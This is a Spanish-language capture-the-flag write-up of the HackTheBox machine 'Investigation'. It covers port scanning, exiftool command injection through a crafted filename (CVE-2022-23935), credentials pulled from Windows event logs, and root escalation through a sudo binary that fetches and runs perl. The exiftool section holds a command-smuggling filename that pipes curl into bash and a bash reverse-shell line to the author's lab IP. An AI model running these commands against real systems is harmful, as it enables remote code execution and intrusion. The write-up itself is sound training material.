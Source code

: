 ```yaml
---
layout: single
title: HackTheBox - Investigation writeup
date: 2023-02-09
classes: wide
header:
  teaser: /assets/images/HackTheBox/logo.svg
  teaser_home_page: true
categories:
  - HackTheBox  
  - Medium
tags:
  - Exiftool
  - Microsoft Outlook
  - Event log
  - Sudo
  - Reversing
---
```


![](/assets/images/HackTheBox/Investigation/Investigation.png)

En la máquina de hoy abusaremos de una version desactualizada de `exiftool` que nos permitirá ejecutar comandos y ganar acceso. Encontraremos un archivo `.msg` (correo electrónico de Microsoft Outlook) dentro de la máquina que contendrá un archivo `.zip` con eventos de windows (.evtx), gracias a los eventos podremos encontrar credenciales expuestas para conectarnos por **ssh** (user pivoting). Para la escalada de privilegios podremos ejecutar un binario como **root** sin necesidad de contraseña, tendremos que hacer reversing al binario para entender qué es lo que esta haciendo y poder ganar una consola como root.

## Índice
* [Nmap, Fuzzing y Reconocimiento](#nmap-fuzzing-y-reconocimiento)
* [Exiftool RCE](#exiftool-rce)
* [User Pivoting](#user-pivoting)
* [Reversing and Privilege Escalation](#reversing-and-privilege-escalation)

## Nmap, Fuzzing y Reconocimiento

Como siempre, en la fase de reconocimiento usamos nmap:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG nmap/Puertos.txt 10.10.11.197
```

```
Puertos.txt

# Nmap 7.92 scan initiated Tue Jan 31 08:16:10 2023 as: nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG nmap/Puertos.txt 10.10.11.197
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.197 ()   Status: Up
Host: 10.10.11.197 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///    Ignored State: closed (65533)
# Nmap done at Tue Jan 31 08:16:23 2023 -- 1 IP address (1 host up) scanned in 12.34 seconds
```

La máquina tiene 2 puertos abiertos, 22 y 80:

```bash
nmap -p22,80 -sVC -oN nmap/VersionServicios.txt 10.10.11.197
```

```
VersionServicios.txt

# Nmap 7.92 scan initiated Tue Jan 31 08:17:12 2023 as: nmap -p22,80 -sVC -oN nmap/VersionServicios.txt 10.10.11.197
Nmap scan report for eforenzics.htb (10.10.11.197)
Host is up (0.049s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2f:1e:63:06:aa:6e:bb:cc:0d:19:d4:15:26:74:c6:d9 (RSA)
|   256 27:45:20:ad:d2:fa:a7:3a:83:73:d9:7c:79:ab:f3:0b (ECDSA)
|_  256 42:45:eb:91:6e:21:02:06:17:b2:74:8b:c5:83:4f:e0 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: eForenzics - Premier Digital Forensics
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan 31 08:17:21 2023 -- 1 IP address (1 host up) scanned in 9.67 seconds
```

Para enumerar un poco la página web por consola, antes de ir directamente al navegador, voy a utilizar `whatweb`.

![](/assets/images/HackTheBox/Investigation/whatweb.png)

La máquina está utilizando **Virtual Hosting**, para que nos resuelva tenemos que añadir una línea en el **/etc/hosts**

```
# Host addresses
127.0.0.1  localhost
127.0.1.1  parrot
::1        localhost ip6-localhost ip6-loopback
ff02::1    ip6-allnodes
ff02::2    ip6-allrouters
# Others

10.10.11.197   eforenzics.htb
```

![](/assets/images/HackTheBox/Investigation/whatweb2.png)

## Exiftool RCE

La página principal nos dice que que podemos subir una foto gratis y que nos harán forense a la foto que subamos.

> http://eforenzics.htb/service.html

![](/assets/images/HackTheBox/Investigation/upload.png)

Cuando subimos una foto cualquiera podremos confirmar que está utilizando `exiftool` para hacer forense a la foto, pero esta versión de exiftool es vulnerable a inyección de comandos (versiones menores a la 12.38).<br>

![](/assets/images/HackTheBox/Investigation/exiftool.png)

La inyección se acontece cuando el nombre del archivo termina con un pipe `|`.<br>

* [CVE-2022-23935](https://nvd.nist.gov/vuln/detail/CVE-2022-23935)

Para ejecutar comandos he copiado una imagen real  y la he llamado <code>`curl 10.10.14.174|bash` |</code>. Estaré compartiendo un servidor http con python para mandarme la **reverse shell**.

```bash
cp /home/ch3chu/Descargas/wallpaper.png '`curl 10.10.14.174|bash` |'
```

![](/assets/images/HackTheBox/Investigation/file.png)

```bash
echo -e '#!/bin/bash\nbash -c "bash -i >& /dev/tcp/10.10.14.174/443 0>&1"' > index.html
```

![](/assets/images/HackTheBox/Investigation/index.png)

Nos levantamos el servidor HTTP y a la vez nos ponemos a la escucha por el puerto **443**:

![](/assets/images/HackTheBox/Investigation/http.png)

Subimos la foto y recibimos la shell:

![](/assets/images/HackTheBox/Investigation/uploadPng.png)

![](/assets/images/HackTheBox/Investigation/www-data.png)

## User Pivoting

Al enumerar el sistema y buscar archivos de los usuarios existentes encontramos un archivo `.msg`.

![](/assets/images/HackTheBox/Investigation/find.png)

Los archivos con extensión **.msg** son archivos de correo electrónico en formato Microsoft Outlook. Representan mensajes de correo electrónico que se guardan localmente en el ordenador y se pueden abrir con Microsoft Outlook o cualquier otro programa que sea compatible con el formato **.msg**. Estos archivos contienen información sobre el remitente, el destinatario, el asunto, el cuerpo del mensaje, adjuntos y otras propiedades relacionadas con el correo electrónico. También pueden incluir información de seguimiento y elementos de calendario como citas y reuniones.<br>
Lo que hice en su momento fue transferirme este archivo a una máquina windows y darle doble click:

![](/assets/images/HackTheBox/Investigation/mensage.png)

Vemos que tiene un comprimido `zip` adjunto, si lo descomprimimos podemos ver que tiene un archivo con extensioin `evtx`, esta extensión se utiliza para los event log de windows. Lo más facil es transferirse este archivo a una máquina windows y darle doble click para poder inspeccionar los **logs** facilmente.<br>
En concreto hay un **ID de evento** *4776* que se registra cada vez que un controlador de dominio (DC) intenta validar las credenciales de una cuenta usando NTLM sobre Kerberos. Este evento también se registra para los intentos de inicio de sesión en la cuenta SAM local en estaciones de trabajo y servidores Windows, ya que NTLM es el mecanismo de autenticación predeterminado para el inicio de sesión local.

![](/assets/images/HackTheBox/Investigation/4776.png)

Vemos que hay credenciales expuestas, lo mas seguro es que sean del usuario `smorton`, lo cual me permite conectarme por **ssh**.

## Reversing and Privilege Escalation

Una vez estemos loggeados como `smorton` tenemos que volver a enumerar el sistema. Esta vez podemos ejecutar un binartio `/usr/bin/binary` como root sin necesidad de contraseña:

![](/assets/images/HackTheBox/Investigation/sudo.png)

Para saber un poco mejor que es lo que hace este ejecutable me creé un proyecto en `hydra` para poder leer el codigo en **C** y analizarlo. Básicamente este ejecutable primero valida si el número de argumentos que le estamos pasando es 3, si no, el programa sale; luego valida si el usuario que lo esta ejecutando es **root**, y por ultimo está comparando el ultimo argumento con una cadena de texto `lDnxUysaQn`, si no es la misma cadena se para el programa.

![](/assets/images/HackTheBox/Investigation/hydra.png)

Ahora que sabemos como ejecutar el programa correctamente, tenemos que entender que hace. Este trozo del codigo esta creando un archivo llamado como el último argumento que le pasemos, en este caso `lDnxUysaQn`, luego está realizando un curl al primero arugmento y lo esta guardando en el archivo creado.

![](/assets/images/HackTheBox/Investigation/hydra2.png)

Por último el programa está ejecutando el archivo `lDnxUysaQn` con perl.

![](/assets/images/HackTheBox/Investigation/hydra3.png)

Lo que me lleva a pensar es, ¿qué pasaría si pongo mi IP como primer argumento y me levanto un servidor HTTP con codigo en perl que me ejecute una bash?

![](/assets/images/HackTheBox/Investigation/index2.png)

![](/assets/images/HackTheBox/Investigation/index3.png)

![](/assets/images/HackTheBox/Investigation/root.png)
